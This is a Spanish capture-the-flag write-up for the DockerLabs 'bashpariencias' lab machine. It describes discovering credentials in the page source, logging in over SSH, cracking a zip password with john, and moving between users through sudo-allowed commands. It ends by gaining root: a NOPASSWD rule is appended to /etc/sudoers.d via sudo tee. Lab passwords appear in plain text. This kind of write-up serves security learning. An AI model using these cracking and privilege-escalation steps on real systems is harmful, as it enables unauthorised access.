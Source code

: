 nmap: 80, 8899
![image](https://github.com/user-attachments/assets/3640f876-af5a-4520-8312-e1baa9297e3c)


---

en la pagina principal da un usuario "rosa" y posibles contraseñas en texto plano txt y un sha384:
![image](https://github.com/user-attachments/assets/e5b6b0b1-ddc1-46da-b4d1-14900eaf7de0)


      -UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1
los pasamos por un sha384: https://emn178.github.io/online-tools/sha384.html

y nos da: 

>e762c3709721038d65fa8365bbd50e88fd5515f56ee41c64e157607793d1bc8ce2ffd67a6e93431008b0cce67fa70c57

si voy a formulario de la pagina principal y voy al código fuente encontramos esto:
![[dockerlabs/medio/bashpariencias/codigo fuente.png]]
"rosa:lacagadenuevo" (posible contraseña)
probamos:

     - ssh rosa@172.18.0.2 -p 8899 (porque el puerto 22 esta cerrado)

vemos que podemos entrar:
![[dockerlabs/medio/bashpariencias/conexion1.png]]

encontré esto:
![[encuentro1.png]]

dentro vamos a la carpeta: cd > cd ./- > abrimos un servidor y en nuestro terminal un curl:

     curl http://172.18.0.2:8080/backup_rosa.zip --output rosa.zip

nos pasamos el zip
![[dockerlabs/medio/bashpariencias/paso1.png]]

nos pide una contraseña así que intentamos un "john"

         zip2john rosa.zip > hash_zip
          john hash_zip

y nos da la contraseña:
![[dockerlabs/medio/bashpariencias/contraseña1.png]]
ingresamos a la terminal victima y con al contraseña vemos lo que dice en "password.txt"
contraseña: hackwhitbash
![[contraseña2.png]]
probamos con "juan" y ahora somos el usuario "juan"
con sudo -l  vemos que carlos ejecuta "tree / cat" 
colocamos:

    sudo -u carlos tree /home/carlos

da que tenemos un directorio con nombre "password" hacemos un
    
    sudo -u carlos cat /home/carlos/password

nos da la contraseña de carlos: chocolateado
![[contraseña3.png]]


con sudo -l  y carlos ejecuta un "tee"
buscamos en: https://gtfobins.github.io/gtfobins/tee/
y seguimos los pasos:

    LFILE=/etc/sudoers.d/carlos
     echo "carlos ALL=(ALL) NOPASSWD: ALL" | sudo tee -a "$LFILE"

ejecutamos "sudo su"
![[dockerlabs/medio/bashpariencias/root.png]]
 y somos root!.
